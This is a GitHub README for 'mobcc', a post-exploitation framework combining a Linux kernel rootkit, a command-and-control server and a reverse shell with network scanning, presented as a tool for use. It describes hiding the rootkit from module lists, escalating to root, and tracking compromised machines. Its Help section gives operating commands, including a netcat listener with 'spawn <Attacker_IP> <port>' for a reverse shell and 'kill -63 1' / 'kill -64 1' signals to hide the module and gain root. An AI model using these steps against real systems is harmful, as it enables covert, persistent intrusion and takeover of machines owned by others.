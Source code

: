 # mobcc

Mob CC is a post exploitation framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Screenshots:
  ![Home Page](/images/mobcc_home.png)

---

# Note:
  - Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


# Resources:
Learn how to create Linux Kernel modules: https://xcellerator.github.io/posts/linux_rootkits_01/